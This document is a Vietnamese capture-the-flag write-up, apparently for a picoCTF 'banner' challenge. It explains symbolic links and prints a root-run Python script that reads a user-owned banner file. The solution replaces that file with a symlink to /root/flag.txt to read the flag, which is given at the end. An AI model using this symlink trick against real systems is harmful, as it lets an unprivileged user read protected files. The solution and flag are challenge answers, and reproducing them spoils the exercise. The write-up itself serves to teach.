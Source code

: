 # Write up

## Symlink?
Symlink (viết tắt của Symbolic Link), hay còn gọi là liên kết tượng trưng, là một loại file đặc biệt trong hệ điều hành Unix/Linux (bao gồm cả macOS, WSL...) dùng để trỏ đến một file hoặc thư mục khác.
    - Gồm:
        + Hard Link: Liên kết trực tiếp đến nội dung file gốc, chia sẻ inode.
        + Soft Link (Symlink): Là một file chứa đường dẫn đến file khác, hoạt động giống shortcut trong Windows.
    - Đặc Điểm:
        + Là một file thực sự, chứa đường dẫn tới file gốc.
        + Khi truy cập symlink thì hệ thống sẽ chuyển đến file/thư mục gốc.
        + Nếu file gốc bị xóa, symlink sẽ bị gãy (dangling symlink) → không truy cập được.
        + Có thể trỏ tới cả file và thư mục, cả đường dẫn tương đối hoặc tuyệt đối.
        + Không lưu dữ liệu thực: Symlink chứa đường dẫn đến file gốc, không chứa dữ liệu nội dung của file
    - Cách tạo:
        `ln -s [đường_dẫn_tới_gốc] [tên_symlink]`
    ví dụ:
        `ln -s /home/long/data.txt link_data.txt`
        ý nghĩa là: Tạo symlink `link_data.txt` trỏ đến file gốc `/home/long/data.txt`
    - cách kiểm tra symlink:
        `ls -l`
        kết quả có dạng:
        `lrwxrwxrwx 1 user user    9 Jul 22 22:22 link_data.txt -> data.txt`

## solve
ta kiểm tra vị trí hiện tại
```
player@challenge:~$ ls
ls
banner  text
```

kiểm tra banner
```
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
```

ta kiểm tra folder root
```
player@challenge:~$ cd /root
cd /root
player@challenge:/root$ ls
ls
flag.txt  script.py
```

## Script.py
```
import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt
```

ta thấy dòng
`with open("/home/player/banner", "r") as f`
Vậy mục tiêu là tạo symlink `/home/player/banner` trỏ đến `/root/flag.txt`
vì đã tồn tại file banner nên ta không thể tạo symlink ngay được mà phải xóa file banner trước
`rm banner`
sau đó
`ln -s /root/flag.txt banner`
hoặc
`ln -s /root/flag.txt /home/player/banner`

thử lại xem
```
player@challenge:~$ ls -l
ls -l
total 4
lrwxrwxrwx 1 player player 14 Jul 22 16:22 banner -> /root/flag.txt
-rw-r--r-- 1 root   root   13 Feb  7  2024 text
```

tạo symlink thành công.
Tắt sever đi khởi động lại
## flag
`picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}`